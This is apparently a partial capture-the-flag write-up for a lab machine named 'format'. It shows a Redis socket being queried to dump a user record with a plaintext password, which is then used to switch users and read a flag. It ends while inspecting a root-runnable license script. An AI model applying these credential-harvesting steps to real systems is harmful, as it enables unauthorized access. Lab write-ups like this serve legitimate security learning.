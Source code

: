 
im www-data...

This is a process executing on the machine

```
/usr/bin/redis-server 127.0.0.1:0
```

Apparently I have to do this firlst

```
www-data@format:/home/cooper$ redis-cli -s /run/redis/redis.sock 
redis /run/redis/redis.sock> KEYS * 
1) "cooper.dooper:sites" 
2) "cooper.dooper" 
3) redis /run/redis/redis.sock> TYPE cooper.dooper hash
```
THEN :

```
redis /run/redis/redis.sock> HGETALL cooper.dooper 
1) "username" 
2) "cooper.dooper" 
3) "password" 
4) "zooperdoopercooper" 
5) "first-name" 
6) "Cooper" 
7) "last-name" 
8) "Dooper" 
9) "pro" 
10) "false"
```


Now I use 

su cooper

and now im cooper and i can cat the flag

user.txt
a5c970eb908ae90e10afbeea49a17229


sudo -l tells us this :
```
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license

```

Its a python script

```c
cooper@format:~$ cat /usr/bin/license
#!/usr/bin/python3

import base64
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC
from cryptography.fernet import Fernet
import random
import string
from datetime import date
import redis
import argparse
```
